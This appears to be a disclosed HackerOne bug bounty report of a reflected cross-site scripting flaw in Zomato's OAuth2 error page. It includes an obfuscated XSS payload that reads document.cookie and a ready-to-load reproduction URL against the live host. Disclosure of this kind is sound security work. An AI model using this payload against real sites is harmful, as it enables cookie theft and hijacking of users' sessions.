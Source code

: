 # [auth2.zomato.com] Reflected XSS at `oauth2/fallbacks/error` | ORY Hydra an OAuth 2.0 and OpenID Connect Provider

## Report Details
- **Report ID**: 456333
- **URL**: https://hackerone.com/reports/456333
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-12-05T18:21:06.884Z
- **Disclosed**: 2019-01-21T05:54:09.831Z

## Reporter
- **Username**: sudi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zomato

## Vulnerability Information
Heyy there,
I have found a xss in auth2.zomato.com

**Full url:**https://auth2.zomato.com/oauth2/fallbacks/error?error=xss&error_description=xss&error_hint=xss
**Vulnerable Parameters:** All available parameters are vulnerable
**XSS Payload:** `<marquee loop%3d1 width%3d0 onfinish%3dco\u006efirm(document.cookie)>XSS<%2fmarquee>`

**Steps To Reproduce the xss**
Just copy paste and load this url in your firefox browser and tadaa you will get the xss popup
`https://auth2.zomato.com/oauth2/fallbacks/error?error=xss&error_description=xsssy&error_hint=%3Cmarquee%20loop%3d1%20width%3d0%20onfinish%3dco\u006efirm(document.cookie)%3EXSS%3C%2fmarquee%3E`

**POC:**
{F386017}

## Impact

An attacker can send this url with payload to an already  login user and can steal the cookie.

Thankyou
Kind Regards
Sudhanshu

## Attachments
- POC.png
